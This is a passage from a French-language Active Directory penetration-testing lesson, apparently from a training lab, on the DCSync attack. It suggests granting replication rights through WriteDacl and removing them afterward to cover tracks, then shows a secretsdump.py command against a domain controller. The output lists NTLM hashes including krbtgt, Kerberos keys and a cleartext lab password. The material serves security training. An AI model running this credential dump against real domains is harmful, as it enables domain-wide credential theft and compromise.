 ```

```

Si nous avions certains droits sur l'utilisateur (tels que [WriteDacl](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#writedacl) ), nous pourrions également ajouter ce privilège à un utilisateur sous notre contrôle, exécuter l'attaque DCSync, puis supprimer les privilèges pour tenter de couvrir nos traces. La réplication DCSync peut être effectuée à l'aide d'outils tels que Mimikatz, Invoke-DCSync et secretsdump.py d'Impacket. Voyons quelques exemples rapides.

L'exécution de l'outil comme ci-dessous écrira tous les hachages dans les fichiers avec le préfixe `inlanefreight_hashes`. L' `-just-dc`indicateur indique à l'outil d'extraire les hachages NTLM et les clés Kerberos du fichier NTDS.

#### Extraction des hachages NTLM et des clés Kerberos à l'aide de secretsdump.py

  Extraction des hachages NTLM et des clés Kerberos à l'aide de secretsdump.py

```
dsgsec@htb[/htb]$ secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5

Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

Password:
[*] Target system bootKey: 0x0e79d2e5d9bad2639da4ef244b30fda5
[*] Searching for NTDS.dit
[*] Registry says NTDS.dit is at C:\Windows\NTDS\ntds.dit. Calling vssadmin to get a copy. This might take some time
[*] Using smbexec method for remote execution
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: a9707d46478ab8b3ea22d8526ba15aa6
[*] Reading and decrypting hashes from \\172.16.5.5\ADMIN$\Temp\HOLJALFD.tmp
inlanefreight.local\administrator:500:aad3b435b51404eeaad3b435b51404ee:88ad09182de639ccc6579eb0849751cf:::
guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
lab_adm:1001:aad3b435b51404eeaad3b435b51404ee:663715a1a8b957e8e9943cc98ea451b6:::
ACADEMY-EA-DC01$:1002:aad3b435b51404eeaad3b435b51404ee:13673b5b66f699e81b2ebcb63ebdccfb:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:16e26ba33e455a8c338142af8d89ffbc:::
ACADEMY-EA-MS01$:1107:aad3b435b51404eeaad3b435b51404ee:06c77ee55364bd52559c0db9b1176f7a:::
ACADEMY-EA-WEB01$:1108:aad3b435b51404eeaad3b435b51404ee:1c7e2801ca48d0a5e3d5baf9e68367ac:::
inlanefreight.local\htb-student:1111:aad3b435b51404eeaad3b435b51404ee:2487a01dd672b583415cb52217824bb5:::
inlanefreight.local\avazquez:1112:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71:::

<SNIP>

d0wngrade:des-cbc-md5:d6fee0b62aa410fe
d0wngrade:dec-cbc-crc:d6fee0b62aa410fe
ACADEMY-EA-FILE$:des-cbc-md5:eaef54a2c101406d
svc_qualys:des-cbc-md5:f125ab34b53eb61c
forend:des-cbc-md5:e3c14adf9d8a04c1
[*] ClearText password from \\172.16.5.5\ADMIN$\Temp\HOLJALFD.tmp
proxyagent:CLEARTEXT:Pr0xy_ILFREIGHT!
[*] Cleaning up...

```
